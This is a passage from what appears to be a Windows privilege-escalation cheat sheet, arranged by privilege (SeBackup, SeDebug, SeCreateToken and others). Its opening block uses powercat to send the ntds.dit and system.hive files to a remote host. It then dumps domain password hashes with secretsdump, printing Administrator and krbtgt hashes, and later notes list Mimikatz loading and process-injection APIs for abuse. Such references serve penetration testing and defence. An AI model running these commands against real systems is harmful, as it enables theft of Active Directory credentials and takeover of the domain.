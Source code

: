         # FILE TRANSFERT
        powercat -c 10.10.10.10 -p 443 -i c:\Windows\temp\system.hive
        powercat -c 10.10.10.10 -p 443 -i c:\Windows\temp\ntds.dit
        
        # REBUILD AD HASHES
        secretsdump.py -ntds ntds.dit -system system.hive LOCAL
        Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation
        
        [*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
        [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
        [*] Searching for pekList, be patient
        [*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
        [*] Reading and decrypting hashes from ntds.dit 
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
        krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
        ...
        ```
    - If you have SeBackup & SeRestoreprivileges(Backup Operators group) you can set permission and ownership on each file & folder.

- ##### SeChangeNotifyPrivilege

- ##### SeSystemtimePrivilege

- ##### SeTimeZonePrivilege

- ##### SeCreatePagefilePrivilege

- ##### SeCreateTokenPrivilege
    - Allows a process to create an access token by calling token-creating APIs.
    - Create a custom token with all privileges and group membership.

- ##### SeCreateGlobalPrivilege

- ##### SeCreatePermanentPrivilege

- ##### SeCreateSymbolicLinkPrivilege

- ##### SeDebugPrivilege
    - Create a new process and set the parent process a privileged process.
    - Allows the holder to debug another process.
    - Permits read/write memory and change properties of any process (including Local System, administrator...) 
    - Load Mimikatz.
    - Inject code into privileged processes in order to perform privileged tasks (VirtualAlloc(), WriteProcessMemory(), CreateRemoteThread(),...)

- ##### SeDenyNetworkLogonRight

- ##### SeDenyBatchLogonRight

- ##### SeDenyServiceLogonRight
